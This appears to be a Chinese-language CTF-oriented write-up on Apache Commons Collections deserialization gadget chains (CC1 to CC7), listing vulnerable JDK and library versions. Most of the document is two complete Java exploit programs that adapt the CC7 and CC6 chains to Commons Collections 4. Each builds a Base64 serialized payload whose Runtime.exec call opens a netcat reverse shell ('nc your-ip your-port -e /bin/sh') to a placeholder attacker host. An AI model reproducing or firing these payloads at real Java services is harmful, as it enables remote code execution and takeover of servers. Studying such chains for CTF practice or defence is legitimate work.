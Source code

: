 
CommonsCollections包为Java标准的CollectionsAPi提供了相当好的补充。在此基础上对其常用的数据结构操作进行了很好的封装、抽象和补充。让我们在开发应用程序的过程中，既保证了性能，同时也能大大简化代码。
简称cc，第三方依赖库，被许多组件和项目所依赖，cc在很多项目或者组件中都有使用，
然而3和4相关版本存在反序列化利用链（Gadget）当出现反序列化入口时候，就存在反序列化漏洞。
Web和网络安全中"Gadget"一词通常指的是可以被利用来进行攻击的对象或代码片段。

## **环境**
CommonsCollections版本为3.2.1时漏洞最多。
```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```
java老版本下载：<https://blog.lupf.cn/articles/2022/02/19/1645283454543.html> 密码8899
复现环境配置：<https://www.freebuf.com/articles/web/383152.html>

安装jdk<=8u65，解压里面的src.zip。
安装jdk8源码，复制里面sun(jdk-af660750b2f4\src\share\native\sun)目录到刚刚解压的src目录下，这样可以跟踪jdk源码。


## **要求**
CC1链：java<=JDK8u71(1.8.0_71)、CommonsCollections<=3.2.1
>常见jdk=8u65进行复现。借助类Transformer

CC6链：java<=JDK8u71(1.8.0_71)、CommonsCollections<=3.2.1
>这条链是基于CC1，只是入口类改了，入口类为hashMap。CC6=CC1+URLDNS。


CC3链：java<=JDK8u71(1.8.0_71)、CommonsCollections<=3.2.1
>CC1 链与 CC6 链是通过 Runtime.exec() 进行命令执行的。而很多时候服务器的代码当中的黑名单会选择禁用 Runtime。​
CC3 链则是通过动态加载类加载机制来实现自动执行恶意类代码的。

CC4链：java<=JDK8u71(1.8.0_71)、CommonsCollections=4
>因为 CommonsCollections4 除 4.0 的其他版本去掉了 InvokerTransformer 的 Serializable 继承，导致无法序列化​。
CC4链找到InvokerTransformer的替换。

CC2链：java<=JDK8u71(1.8.0_71)、CommonsCollections=4
>CC2链是在CC4链的基础上修改。

CC7链：java<=JDK8u71(1.8.0_71)、commons-collections:<=3.2.1
CC5链：java<=JDK8u71(1.8.0_71)、commons-collections:<=3.2.1

^
CC7链改成适用CommonsCollections=4

```
package show.ctf.java;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.*;

public class web851 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"nc your-ip your-port -e /bin/sh"})
//                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        // 先传进来一个空的，防止在put里面的equals触发
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});

        HashMap<Object,Object> hashMap1 = new HashMap<>();
        HashMap<Object,Object> hashMap2 = new HashMap<>();

        // 在java中yy和zZ的hashCode是一样的
        Map<Object,Object> lazyMap1 = LazyMap.lazyMap(hashMap1,chainedTransformer);
        lazyMap1.put("yy", 1);
        Map<Object,Object> lazyMap2 = LazyMap.lazyMap(hashMap2,chainedTransformer);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Class c = chainedTransformer.getClass();
        Field iTransformers = c.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(chainedTransformer,transformers);

        // LazyMap.get中会多生成一个yy
        lazyMap2.remove("yy");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashtable);

        byte[] payloadBytes = byteArrayOutputStream.toByteArray();
        String payload = Base64.getEncoder().encodeToString(payloadBytes);
        System.out.println(payload);
//        serialize(hashtable);
//        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

CC6链改成适用CommonsCollections=4
```
package show.ctf.java;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.*;

public class web851 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"nc your-ip your-port -e /bin/sh"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> map = new HashMap<>();
        // 改成ConstantTransformer是为了防止put的时候就被使用
        Map<Object,Object> lazyMap = LazyMap.lazyMap(map,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"evo1");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"evo2");

        // 序列化的时候需要这个key来过掉LazyMap.get中的map.containsKey(key) == false
        // 但是序列化后这个key会被放进去，所以需要再去掉
        lazyMap.remove("evo1");

        Class c = LazyMap.class;
        Field factory = c.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap,chainedTransformer);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map2);

        byte[] payloadBytes = byteArrayOutputStream.toByteArray();
        String payload = Base64.getEncoder().encodeToString(payloadBytes);
        System.out.println(payload);

//        serialize(map2);
//        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

